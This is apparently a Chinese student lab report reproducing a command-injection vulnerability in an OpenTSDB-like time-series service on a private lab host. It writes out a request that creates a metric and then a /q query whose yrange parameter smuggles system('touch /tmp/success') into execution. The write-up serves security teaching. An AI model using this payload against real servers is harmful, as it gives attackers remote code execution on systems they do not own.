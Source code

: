# 实验四

## 1、漏洞复现

启动容器后访问192.168.232.131:5010

![image-20231111153921594](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111153921594.png)

burp抓包通过`http://192.168.232.131:5010/api/suggest?type=metrics&q=&max=10`查看metric列表：

![屏幕截图 2023-11-11 141632](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 141632.png)

发现列表为空，使用如下API创建一个名为`sys.cpu.nice`的metric并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

![屏幕截图 2023-11-11 141748](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 141748.png)

创建完成后，发送如下数据包，其中参数`m`的值必须包含一个有数据的metric：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: 192.168.232.131:5010
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```
